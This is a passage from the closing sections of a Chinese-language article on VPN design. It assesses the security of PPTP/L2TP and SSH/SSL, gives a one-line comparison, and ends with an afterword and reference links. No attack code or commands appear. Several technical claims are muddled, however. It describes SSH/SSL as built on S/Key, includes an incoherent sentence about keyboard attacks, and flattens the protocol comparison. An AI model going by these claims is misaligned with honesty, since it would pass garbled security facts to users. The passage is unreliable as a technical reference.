> “而微软所设计的PPTP/L2TP协议更是一塌糊涂，其安全机制实在令我们感到无奈，而安全专家则不推荐使用其实现VPN设计。关于其具体攻击实现可参阅：http://www.schneier.com/pptp.html，著名密码破解专家Bruce Schneier精彩论述。”

### 2.3 SSH/SSL安全强度

目前来说，基于S/Key实现的SSH/SSL协议本身是没有安全漏洞可言，然而通过某种数据窃听方式仍然可在用户初始登录程序并同时连接到相同的网段时，模拟用户键盘输入得到验证字串，从而获得连接权限，而真实用户则要在键盘本体攻击。可参阅：http://www.clark.net/pub/mjr/pubs/attck/。通过简单的自动协商认证就可以修补这个验证漏洞。

S/Key实现协议也容易遭受中间人的攻击，然而使用其实现隧道机制，整个链路协商的密钥交换采用了安全会话方式，因此可以保证VPN非常安全地实现。

SSH/SSL协议应用于VPN领域是非常新鲜的思想技巧，而且目前基于这类安全协议的应用产品逐渐丰富起来，因此SSH/SSL在VPN空间中具有潜质的作用力。

> **注：** 关于SSH/SSL的攻击文献可参见giantexplorer，地址：http://www.giantexplorer.com/result.php?source=kanoodle&Keywords=ssl/ssh%20attack

### 3、小结

如此复杂的体系最后归结为几句简单的概述：IPSec最复杂；PPTP/L2TP最不安全；SSL/SSH最简单。

## 六、小记

整篇文章从编写开始，经过无数的实验、资料查询及技术交流总算结束了。本文中所罗列的VPN实现方法只是众多方案中的一部分，而且本文设计是采用开放式DIY的思想选取具体实际例子，以便于读者和爱好者能对本行业进行相关的设计，从而实现更具有创新的VPN设计方法。

根据VPN简单的设计思路，利用网络的各种丰富资源，未来的赛伯空间将能任意连接着各种安全隧道的数字信息通路，使整个空间更具完美的数字艺术。

## 七、参考资料

- 1. http://www.ietf.org/rfc.html
- 2. http://www.microsoft.com/technet/treeview/default.asp?url=/technet/prodtechnol/isa/proddocs/isadocs/cmt_entvpn.asp
- 3. http://www.opennet.ru/docs/HOWTO/mini/ppp-ssh/
- 4. http://openvpn.sourceforge.net
- 5. http://www.freeswan.org/